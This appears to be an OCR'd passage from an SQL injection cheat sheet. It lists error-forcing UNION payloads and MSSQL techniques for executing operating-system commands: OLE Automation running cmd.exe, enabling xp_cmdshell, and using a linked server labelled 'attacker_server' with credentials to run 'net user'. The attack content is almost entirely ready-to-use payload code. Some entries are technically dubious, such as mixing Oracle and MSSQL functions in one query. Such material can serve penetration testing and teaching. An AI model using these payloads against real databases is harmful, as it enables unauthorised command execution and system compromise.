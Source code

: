 ### 8. Advanced Error Techniques

#### Recursive Queries

Use recursive queries to force errors.
```sql
' UNION SELECT 1 FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3 UNION SELECT 4) AS temp WHERE temp=1 --
```

#### Invalid Hexadecimal Values

Use invalid hexadecimal values to trigger errors.
```sql
' UNION SELECT 0xZZ --
```

### 9. Combining Techniques

#### Chained Error Forcing

Combine multiple error-forcing techniques for more robust results.
```sql
' UNION SELECT CONVERT(INT, 'abc') UNION SELECT 1/0 UNION SELECT TO_NUMBER('abc', '999') --
```

## Techniques to Force Errors from Databases for SQL Injection

Below are some advanced and rare SQL injection techniques for MSSQL, MySQL, and Oracle. These techniques go beyond the basic ones and exploit specific features and configurations of the databases.

### MSSQL

#### OLE Automation Procedures
```sql
DECLARE @Object INT;
EXEC sp_OACreate 'WScript.Shell', @Object OUTPUT;
EXEC sp_OAMethod @Object, 'Run', NULL, 'cmd.exe /c whoami > C:\output.txt';
```
This uses OLE Automation procedures to execute system commands.

#### XP_CMD Shell with Privilege Escalation
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
This enables xp_cmdshell to execute system commands if it's not already enabled.

#### Linked Servers
```sql
EXEC sp_addlinkedserver 'attacker_server';
EXEC sp_addlinkedsrvlogin 'attacker_server', 'false', NULL, 'username', 'password';
EXEC ('xp_cmdshell ''net user''') AT attacker_server;
```
This technique uses linked servers to run commands on a different server.
